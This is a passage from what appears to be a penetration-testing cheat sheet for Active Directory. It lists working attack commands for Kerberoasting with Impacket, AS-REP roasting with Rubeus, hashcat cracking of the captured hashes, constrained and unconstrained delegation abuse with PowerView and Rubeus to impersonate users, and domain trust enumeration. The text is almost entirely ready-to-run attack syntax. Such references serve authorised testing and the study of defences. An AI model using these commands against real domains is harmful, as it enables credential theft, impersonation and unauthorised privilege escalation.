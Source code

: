 #### 11.6.1 Kerberos Service Ticket Enumeration 

- **GetUserSPNs (Impacket)**:
    
    ```bash
    GetUserSPNs.py <domain>/<username>:<password> -dc-ip <target_ip> -request
    ```
    

#### 11.6.2 AS-REP Roasting 

- **Rubeus**:
    
    ```powershell
    Rubeus.exe asreproast /user:<username>
    ```
    
    Crack with Hashcat:
    
    ```bash
    hashcat -m 18200 <asrep_hash> /path/to/wordlist.txt
    ```
    

#### 11.6.3 Constrained Delegation Abuse 

- **PowerView**:
    
    ```powershell
    Get-DomainUser -TrustedToAuth
    Set-DomainObject -Identity "<computer_account>" -Set @{msDS-AllowedToDelegateTo="HOST/<target_service>"}
    ```
    
- **S4U2Self Attack (Rubeus)**:
    
    ```powershell
    Rubeus.exe s4u /user:<username> /rc4:<hash> /impersonateuser:<target_user> /msdsspn:<target_service>
    ```
    

#### 11.6.4 Kerberos Unconstrained Delegation 

- **Rubeus**:
    
    ```powershell
    Rubeus.exe tgtdeleg /target:<target_computer>
    ```
    

# 12. Domain Trust Exploitation 

#### 12.1 Enumerating Trusts 

- **PowerView**:
    
    ```powershell
    Get-NetForest
    Get-NetForestDomain
    Get-NetDomainTrust
    Get-NetForestTrust
    ```
    
